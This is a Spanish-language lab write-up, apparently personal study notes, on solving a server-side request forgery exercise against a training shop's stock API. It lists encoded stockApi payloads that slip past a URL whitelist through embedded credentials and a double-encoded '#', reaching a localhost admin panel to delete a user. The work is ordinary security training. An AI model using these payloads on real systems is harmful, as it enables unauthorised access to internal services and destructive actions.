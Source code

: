 ![[Pasted image 20230925133032.png]]



![[Pasted image 20230925140613.png]]


![[Pasted image 20230925140658.png]]

![[Pasted image 20230925140645.png]]

![[Pasted image 20230925140727.png]]

![[Pasted image 20230925140810.png]]

el payload decodificado es:

http://stock.weliketoshop.net:8080/product/stock/check?productId=1&storeId=1


![[Pasted image 20230925140934.png]]

Interactiando con la API:

![[Pasted image 20230925141018.png]]

![[Pasted image 20230925141028.png]]

a fuerza debe incluir ese url, probando con el payload: stockApi=http%3a//username@stock.weliketoshop.net

![[Pasted image 20230925141214.png]]

...

![[Pasted image 20230925141231.png]]

pudimos interactuar y obtener una salida de datos,  ahora el caracter # ayuda a bypassear el filtro, de manera que sustituyamos el weliketoshop por localhost, # encodeado es %2523:

stockApi=http%3a//username%2523@stock.weliketoshop.net

nuevamente obtuvimos un error 500 lo cual es interaccion:

![[Pasted image 20230925141629.png]]

...

![[Pasted image 20230925141645.png]]



el siguiente payload a probar puede ser este:
stockApi=http%3a//username%2523@stock.weliketoshop.net/admin/delete?username=carlos

Este payload de arriba no funcionó, al siguiente día encontré esta pagina: https://hacktricks.boitatech.com.br/pentesting-web/ssrf-server-side-request-forgery y ahi me fije como bypassear una whitelist, probe este payload:

stockApi=http%3a//127.0.0.1%2523%40stock.weliketoshop.net%3a8080/admin

y me generó esto:

![[Pasted image 20230927135842.png]]

....

![[Pasted image 20230927135859.png]]

completando la asignación:

stockApi=http%3a//127.0.0.1%2523%40stock.weliketoshop.net%3a8080/admin/delete?username=carlos

![[Pasted image 20230927135941.png]]

![[Pasted image 20230927135957.png]]

este es el primer laboratorio que resuelvo por mi cuenta
